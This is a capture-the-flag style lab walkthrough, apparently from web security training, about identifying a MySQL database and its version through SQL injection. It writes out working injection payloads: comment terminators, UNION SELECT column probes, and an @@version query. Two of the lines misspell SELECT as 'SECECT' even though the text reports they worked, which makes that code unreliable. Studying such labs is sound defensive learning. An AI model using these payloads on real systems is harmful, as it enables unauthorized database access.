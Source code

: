 
### SQL injection attack, querying the database type and version on MySQL and Microsoft : PRACTITIONER

---

> First need to identify the type of database. Trying the normal `'--` payload doesn't work.

![](./screenshots/lab9-1.png)


> Trying the other comment technique with a space after the double dash.
```
'-- -
```
> Since trailing spaces are removed, we need to add a dummy character in the end to keep the space.

![](./screenshots/lab9-2.png)

> Now we know that it is a MySQL database.

> We get the number of columns in the output query using the normal test.
```
' UNION SELECT NULL, NULL -- -
```
> And it works, therefore, there are only 2 columns in the output query.

> Then, to output the database version, we know it is of type string. Therefore, we need to check which columns are of type string.
```
' UNION SECECT 'a', NULL-- -
' UNION SELECT NULL, 'a' -- -
```
> They both work, hence both of these columns are text type string.

> To output the database version, use the payload:
```
' UNION SECECT @@version, NULL-- -
```
> And the version is output as expected in a new row.

![DatabaseVersion](./screenshots/version.png)

---

